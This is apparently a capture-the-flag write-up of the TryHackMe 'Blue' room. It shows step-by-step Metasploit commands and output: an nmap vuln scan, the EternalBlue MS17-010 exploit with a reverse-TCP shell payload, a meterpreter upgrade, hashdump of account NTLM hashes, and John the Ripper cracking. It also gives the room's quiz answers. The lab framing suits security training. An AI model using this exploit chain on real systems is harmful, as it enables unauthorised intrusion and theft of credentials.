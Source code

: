 # Blue

- [Tools](#tools)
- [Recon](#recon)
- [Gain Access](#gain-access)
- [Escalate](#escalate)
- [Cracking](#cracking)
- [Find flags](#find-flags)

Room Link: [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

Badges: [https://tryhackme.com/ZishanAdThandar/badges/blue](https://tryhackme.com/ZishanAdThandar/badges/blue)

## Tools 

- NMap https://nmap.org/download
- Metasploit https://www.metasploit.com/download

## Recon

- Scan with nmap using command, `nmap 10.10.248.180 --script vuln -p0-1000`

Output:
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-27 10:57 IST
Nmap scan report for 10.10.248.180
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE
135/tcp open  msrpc
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
139/tcp open  netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-webexec: ERROR: Script execution failed (use -d to debug)
445/tcp open  microsoft-ds
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-webexec: ERROR: Script execution failed (use -d to debug)

Host script results:
|_samba-vuln-cve-2012-1182: ERROR: Script execution failed (use -d to debug)
|_smb-double-pulsar-backdoor: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-conficker: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-cve-2017-7494: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms06-025: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms07-029: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms08-067: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms17-010: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-regsvc-dos: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 34.07 seconds
```
- Question `How many ports are open with a port number under 1000?` Answer `3`
- Question `What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)` Answer `ms17-010`

## Gain Access

- Start Metasploit with `msfconsole`
- Following next question, searched exploit in metasploit console with `search ms17-010` command
Output:
```bash
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce
```
- Question `Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)` Ansswer `exploit/windows/smb/ms17_010_eternalblue`
- To use the exploit we typed `use exploit/windows/smb/ms17_010_eternalblue` command
- After checkinh options with `options` command, we found that we need to add rhosts with `set rhosts 10.10.248.180` and `set lhost tun0` command
- Question `Show options and set the one required value. What is the name of this value? (All caps for submission)` Answer `RHOSTS`

## Escalate 

- Used payload with command `set payload windows/x64/shell/reverse_tcp`
- Then `run` and wait for some time.
- `search shell_to_meterpreter` to find module to upgrade session to meterpreter.
Output:
```bash
Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter
```
- Question `If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)` Answer `post/multi/manage/shell_to_meterpreter`
- Question `Select this (use MODULE_PATH). Show options, what option are we required to change?` Answer `SESSION`
- Run the module after setting session. If fails run it again, it will connect.
```bash
meterpreter > shell
Process 808 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>ps
ps
'ps' is not recognized as an internal or external command,
operable program or batch file.

C:\Windows\system32>exit
exit
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System             x64   0
 416   4     smss.exe           x64   0        NT AUTHORITY\SYSTEM  ...........
...............................................................................
...............................................................................
```
- Use `migrate PROCESS_ID` to mmigrate.

## Cracking

- Use `hashdump` to hashes.
Output:
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
- Question `Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?` Answer `Jon`
- Save hashes in a file named `hash.txt` and use `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` to crack the hash.
- Question `Copy this password hash to a file and research how to crack it. What is the cracked password?` Answer `*******`

## Find flags

- We can goto `C:\\` abd get first flag using `cat flag1.txt`.
```bash
meterpreter > pwd
C:\Windows\system32
meterpreter > cd C:\\
meterpreter > ls
Listing: C:\
============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  0      dir   2018-12-13 08:43:36 +0530  $Recycle.Bin
040777/rwxrwxrwx  0      dir   2009-07-14 10:38:56 +0530  Documents and Settings
040777/rwxrwxrwx  0      dir   2009-07-14 08:50:08 +0530  PerfLogs
040555/r-xr-xr-x  4096   dir   2019-03-18 03:52:01 +0530  Program Files
040555/r-xr-xr-x  4096   dir   2019-03-18 03:58:38 +0530  Program Files (x86)
040777/rwxrwxrwx  4096   dir   2019-03-18 04:05:57 +0530  ProgramData
040777/rwxrwxrwx  0      dir   2018-12-13 08:43:22 +0530  Recovery
040777/rwxrwxrwx  4096   dir   2019-03-18 04:05:55 +0530  System Volume Information
040555/r-xr-xr-x  4096   dir   2018-12-13 08:43:28 +0530  Users
040777/rwxrwxrwx  16384  dir   2019-03-18 04:06:30 +0530  Windows
100666/rw-rw-rw-  24     fil   2019-03-18 00:57:21 +0530  flag1.txt
000000/---------  0      fif   1970-01-01 05:30:00 +0530  hiberfil.sys
000000/---------  0      fif   1970-01-01 05:30:00 +0530  pagefile.sys

meterpreter > cat flag1.txt
flag{********************************}
```
- We can use `search -f flag2.txt` and `search -f flag2.txt` to find second and third flag to submit, as we already know the first one.
```bash
meterpreter > search -f flag2.txt
Found 1 result...
=================

Path                                  Size (bytes)  Modified (UTC)
----                                  ------------  --------------
c:\Windows\System32\config\flag2.txt  34            2019-03-18 01:02:48 +0530

meterpreter > cat c:\Windows\System32\config\flag2.txt
[-] stdapi_fs_stat: Operation failed: The system cannot find the file specified.
meterpreter > cat "c:\Windows\System32\config\flag2.txt"
flag{********************************s}
meterpreter > search -f flag3.txt
Found 1 result...
=================

Path                              Size (bytes)  Modified (UTC)
----                              ------------  --------------
c:\Users\Jon\Documents\flag3.txt  37            2019-03-18 00:56:36 +0530

meterpreter > cat "c:\Users\Jon\Documents\flag3.txt"
flag{********************************}
```
- flag1 : `flag{********************************}` flag2: `flag{********************************}` flag3:`flag{********************************}`

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)

